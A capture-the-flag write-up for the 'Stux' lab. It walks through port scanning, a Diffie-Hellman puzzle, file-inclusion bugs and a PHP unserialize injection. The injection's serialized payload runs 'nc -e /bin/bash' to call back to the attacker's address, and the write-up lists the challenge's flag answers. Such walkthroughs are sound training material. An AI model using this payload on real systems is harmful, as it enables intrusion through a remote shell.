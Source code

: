# Stux CTF writeup

## Enumeration

Using `sudo nmap -Pn -p- -v -A 10.10.189.199` to find open ports, and which services reside at these ports.

![nmap scan](images/nmap.png)

The scan found an endpoint (`/StuxCTF/`) in the robots.txt folder. This page, however, gives us a 404 exception.


Heading back to the index of port 80 I inspect the element and find something about a secret directory.

![secret directory](images/inspect.png)

This problem immediately made me think of a discrete logarithm problem. More spesifically Diffie Hellman.
p is a public prime, and g a public generator, and a and b are Alice's and Bob's respective private keys. g^c might be a third person's g^c mod p public key.

In order to create a shared secret key using Diffie Hellman, you simply combine all peoples public keys together with your own private key like this:

shared_secret = (a_public * b_public)^(c_private) mod p = (g^a_private mod p * g^b_private mod p)^(c_private) mod p = g^(a_private*b_private*c_private) mod p

![dh](images/dh.png)
![dh short](images/128dh.png)

Aaaand, that's our first flag!

3. What is the hidden directory?
    * 47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055

By inspecting the source code of this website, we're graciously given a hint to head over to `/?file=`

![hint](images/hint.png)

Typing a random argument in the `/?file=` endpoint takes us to a page that says that the file doesn't exist.

![No Exist](images/NoExist.png)

By checking for a [lfi vulnerability](https://www.netsparker.com/blog/web-security/local-file-inclusion-vulnerability/) (reference the directory's `index.php` file), we seem to accidentaly have discovered a new code. This code is, at least, different from the modular arithmetic code we calculated above. Using our local web server we also found out that the website has a [rfi vulernability](https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/)

![lfi](images/lfi.png)

This seems an awful lot like hexadecimals, so i use an online converter to get the decoded string.

The decoded string seems to be obscured by something yet again. The double `==` at the start of this string makes it look like reversed base64.

![base64](images/base64.png)

We end up by getting the index.php file when reverting and decoding the base64 string.

![php](images/php.png)

This code may seem innocent at first (except for the inclusion of a lfi exploit), but the `unserialize` method in the last line is vulnerable for remote code execution if we're able to upload our own code to the function. [This article explains the exploit really well](https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/), but the crux of this exploit is that if we `serialize` some php code on our local machine and make the website's `unserialize` method unserialize our php code, it execute it if certain conditions are met. 

The code you want to serialize should look like this:
```php
    <?php
        class file{
            public $file = 'file.php'; // Name of the file we are making on the remote server
            public $data = '<?php shell_exec("nc -e /bin/bash 10.9.81.67 7575"); ?>'; // Spawning a bash shell and sending it to our gateway
        }
        echo (serialize(new file)); //Serialize the "file" function
    ?>
```

By serializing the php code `php inject.php > inject.php` you get a text file with the serialized data `O:4:"file":2:{s:4:"file";s:10:"remote.php";s:4:"data";s:55:"<?php shell_exec("nc -e /bin/bash 10.9.81.67 7575"); ?>";}`

Upload this file to the website through the rfi vulnerability we found earlier

![inject link](images/injectLink.png)

The file should then be saved as `file.php` in the directory.

Start up netcat `nc -lvnp 7575` and head over to the newly uploaded `file.php` to execute the file.

![file](images/file.png)

Connected as www-data!

![www-data](images/ncConnect.png)

We see a user named `grecia` when navigating to the home directory. 
Grecia's user.txt is located here!

![user.txt](images/user.png)

1. user.txt
    * 0b6044b7807dd100b9e30f1bd09db53f

